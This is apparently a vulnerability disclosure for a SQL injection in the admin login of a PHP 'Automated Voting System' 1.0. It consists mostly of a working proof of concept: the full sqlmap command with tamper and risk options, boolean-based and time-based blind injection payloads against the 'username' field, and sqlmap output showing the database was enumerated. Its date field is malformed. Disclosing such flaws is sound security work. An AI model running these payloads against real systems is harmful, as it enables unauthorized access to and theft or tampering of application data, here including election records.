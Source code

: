 # Automated_Voting_System-SQL_Injection-1
+ **Exploit Title:** Automated_Voting_System-SQL_Injection-1
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/automated-voting-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/02/AUTOMATED_VOTING_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-

## References: 

## Description:
Automated Voting System 1.0 allows SQL Injection via parameter 'username' in "/automated%20voting/admin/". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the admin panel: "http://localhost/automated%20voting/admin/"
+ Fill the username and password then click 'Login' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit.
+ In sqlmap, use 'username' parameter to dump the database. 
```
sqlmap -r r.txt -p username --risk 3 --level 5 --threads 1 --random-agent tamper=between, randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: MULTIPART username ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: -----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="username"

-1676' OR 6176=6176-- hmdo
-----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="password"

pass
-----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="login"


-----------------------------192279164335952871372031982036--

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: -----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="username"

adminn' AND (SELECT 7935 FROM (SELECT(SLEEP(5)))MYPj)-- oinA
-----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="password"

pass
-----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="login"


-----------------------------192279164335952871372031982036--
---
[19:21:50] [INFO] testing MySQL
got a 302 redirect to 'http://localhost/automated%20voting/admin/candidate.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[19:21:50] [INFO] confirming MySQL
[19:21:52] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[19:21:52] [INFO] fetching current database
[19:21:52] [INFO] resumed: voting
current database: 'voting'
```

+ current database: `voting`
![01](https://github.com/h4md153v63n/CVEs/assets/5091265/654f8856-e854-4018-8208-8ca07971bb50)
